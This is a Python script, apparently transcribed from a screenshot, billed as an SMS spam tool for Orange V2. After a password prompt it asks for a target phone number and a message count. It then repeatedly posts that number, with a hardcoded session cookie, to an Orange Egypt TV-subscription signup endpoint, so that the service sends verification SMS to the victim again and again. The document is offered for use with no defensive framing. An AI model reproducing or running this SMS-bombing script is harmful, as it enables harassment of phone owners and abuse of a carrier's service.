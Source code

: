 import requests 
import sys,time,pyfiglet 
print ('\033[;096m')
poli=pyfiglet.figlet_format ('SPAM OR V2')
print (poli)
c=('\033[;092m×××××××××××××××××××××××××××××××××××××××')
for I in c+'\n':
	sys.stdout.write (I)
	sys.stdout.flush ()
	time.sleep (00.040)
print ()
d =('\033[;092m##### Welcome To Abdullah Script #####')
for I in d +'\n':
	sys.stdout.write (I)
	sys.stdout.flush ()
	time.sleep (00.10)
print ()
c='#### Script Spam Sms for Orange V2###'
for I in c+'\n':
    sys.stdout.write(I) 
    sys.stdout.flush ()
    time.sleep (00.10)
print ()
c='### Projected By Abdullah  Salah ###'
for I in c+'\n':
    sys.stdout.write(I) 
    sys.stdout.flush ()
    time.sleep (00.10)
print ()


x=input ('\033[;092m##Enter Password>  : \033[;096m')	
print ()
if x == 'AbdullahSalah0099' :
    
    print ('\033[;092m')
    num=input ('Enter number of phone :  ')
    print ()
    number_of_messeges=(int(input ('Enter Number Of Messages  :  ')))
else:
    print ('\033[;091mError Password')
zcx=0
while zcx<number_of_messeges:
    
    url=('http://tvsub.orange.eg/VideoPortalLandingPage/SubInt')
    headers={
'Host': 'tvsub.orange.eg',

'Connection': 'keep-alive',

'Content-Length': '159',

'Cache-Control': 'max-age=0',
'Origin': 'http://tvsub.orange.eg',
'Upgrade-Insecure-Requests': '1',
'DNT': '1',

'Content-Type': 'application/x-www-form-urlencoded',
'User-Agent': 'Mozilla/5.0 (Linux; Android 11; SM-A225F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'Referer': 'http://tvsub.orange.eg/VideoPortalLandingPage/getMobile',
'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'ar-EG,ar-AE;q=0.9,ar;q=0.8,en-GB;q=0.7,en;q=0.6,en-US;q=0.5',
'Cookie':'JSESSIONID=7976C65AC1B6D01AC432A484DA6C9035; _ga=GA1.1.793566817.1646746310; _ga_MMZ8XRXXVN=GS1.1.1646746309.1.1.1646746322.0'}

    data={
'mobile':num,

'opId':'2',

'lang':'1',

'b':'https://tv.orange.eg/OrangeTVPortal/auth/processLogin/ZGV0YWlscy8xODE=',

'c':'2',

'alreadySub':'false',

'src':'null',

'os':'null'
}
    r=requests.post (url,headers=headers, data=data).text
    print ()
    zcx=zcx+1
    if 'سيصلك كود قصير على الموبايل الآن عن طريق ال SMS قم بإدخاله هنا'in r:
        time.sleep (1)
        print (f'\033[;096mDone Send {zcx}')
        time.sleep (1)
    else:
        print ('\033[;091mSomthing Wrong Try Again')
